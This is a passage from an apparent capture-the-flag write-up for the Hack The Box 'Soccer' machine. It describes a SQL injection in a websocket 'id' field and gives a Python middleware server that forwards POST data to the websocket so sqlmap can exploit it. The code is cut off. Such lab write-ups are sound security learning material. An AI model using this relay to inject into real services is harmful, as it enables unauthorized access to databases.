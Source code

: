 ![](screenshots/http-soc-player.soccer.htb-check-websocket-id-sqli.png)

we could write a python script to automate the sql injection manually or create a middleware server that can heddle websocket requests for sqlmap.

Here is a middleware server written in python.

```py
from http.server import BaseHTTPRequestHandler, HTTPServer
import websockets
import asyncio
import json

ws_server = "ws://soc-player.soccer.htb:9091"

def send_ws(data):

    async def lets_talk():
        async with websockets.connect(ws_server) as ws:
            payload = json.dumps({"id": data})
            await ws.send(payload)
            msg = await ws.recv()
            if msg:
                # print(f"> {msg}")
                return f"> {msg}"

    try:
        msg = asyncio.get_event_loop().run_until_complete(lets_talk())
        return msg
    except websockets.exceptions.ConnectionClosed as e:
        # print(e)
        return 'ConnectionClosedError'

class SimpleHTTPRequestHandler(BaseHTTPRequestHandler):

    def do_POST(self):
        if self.path == '/forward':
            content_length = int(self.headers['Content-Length'])
            content_type = self.headers['Content-Type']

            # Parse the POST data as JSON
            if 'application/json' in content_type:
                post_data = json.loads(self.rfile.read(content_length))
            else:
                # Return error if content type is not JSON
                self.send_error(400, 'Invalid content type')
                return

            # Extract the 'payload' parameter from the JSON object
            mw_data = post_data.get('payload')
            ws_resp = send_ws(mw_data)
```